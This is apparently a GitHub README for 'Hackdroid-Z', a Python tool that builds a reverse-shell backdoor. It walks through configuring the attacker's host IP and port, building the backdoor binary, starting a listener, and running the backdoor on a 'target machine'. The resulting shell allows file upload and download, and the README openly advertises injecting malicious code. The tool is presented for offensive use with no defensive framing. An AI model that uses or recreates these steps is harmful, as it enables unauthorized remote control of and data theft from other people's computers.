 ![hackdroidz](https://img.shields.io/badge/tool-hackdroidZ-brightgreen?style=for-the-badge&logo=github)


██╗░░██╗░█████╗░░█████╗░██╗░░██╗██████╗░██████╗░░█████╗░██╗██████╗░░░░░░░███████╗
██║░░██║██╔══██╗██╔══██╗██║░██╔╝██╔══██╗██╔══██╗██╔══██╗██║██╔══██╗░░░░░░╚════██║
███████║███████║██║░░╚═╝█████═╝░██║░░██║██████╔╝██║░░██║██║██║░░██║█████╗░░███╔═╝
██╔══██║██╔══██║██║░░██╗██╔═██╗░██║░░██║██╔══██╗██║░░██║██║██║░░██║╚════╝██╔══╝░░
██║░░██║██║░░██║╚█████╔╝██║░╚██╗██████╔╝██║░░██║╚█████╔╝██║██████╔╝░░░░░░███████╗
╚═╝░░╚═╝╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝╚═════╝░╚═╝░░╚═╝░╚════╝░╚═╝╚═════╝░░░░░░░╚══════╝

# ABOUT THIS TOOL :
Hackdroid-Z is a python based script or tool which made for creating a reverse shell. It will help you to create a reverse shell in less time. You can also inject malicious code ones you get a reverse connection. Also you can upload and download files from your target computer through reverse shell.

# INSTALLATION :
- `git clone https://github.com/BurpOverflow/Hackdroid-Z.git`
- `cd Hackdroid-Z`
- `pip3 install -r requirements.txt`

# USAGE OPTIONS [Linux] :
- `-h` Show Help Menu
- `-H` Specify Your Host IP Address
- `-p` Specify Listening Port

# CUSTOM SHELL COMMAND : 
### 1. DOWNLOAD FILE : 
- You can download file using `download filename`
### 2. UPLOAD FILE : 
- You can upload file using `upload filename`

# HOW TO USE : 

### EDIT BACKDOOR.PY : 
- Open backdoor.py using `vim` or `nano`
- Specify `SERVER_IP` and `SERVER_PORT` , Then save this file.

![BACKDOOR.PY](https://miro.medium.com/max/2127/1*C2sd2SfbeWHzX60jIivxaw.png)

### BUILD YOUR BACKDOOR : 
- Type `python3 build.py` on your terminal.
- Then you will findout you backdoor in `dist` directory.
![backdoor](https://miro.medium.com/max/2127/1*NGxTdHqj2CrDAIkLbXWgKA.png)

### START YOUR SERVER : 
- Type `python3 -H 192.168.43.123 -p 5050`
- `-H` specify your host IP
- `-p` specify listening port
![img](https://miro.medium.com/max/2076/1*6bmWB42nDi3Yz9--rH1rXA.png)

### EXECUTE BACKDOOR IN YOUR TARGET MACHINE : 
- type `./backdoor` on trminal to execute it.
![execute](https://miro.medium.com/max/2127/1*MZrJFvpLBN38bjaYb0Gocg.png)

### REVERSE SHELL : 
- Now you got a reverse shell.
- You can type any command you want
![shell](https://miro.medium.com/max/2076/1*KU3PxN-jzazuviBDjQdvAg.png)

## CONTACT ME : 
- Twitter: [@burpOverflow](https://twitter.com/BurpOverflow/)
- Join Discord: [BurpOverflow](https://discord.gg/UWU8NKmayp)
- Sub Reddit: [Sub Reddit](https://www.reddit.com/r/burpOverflow/)

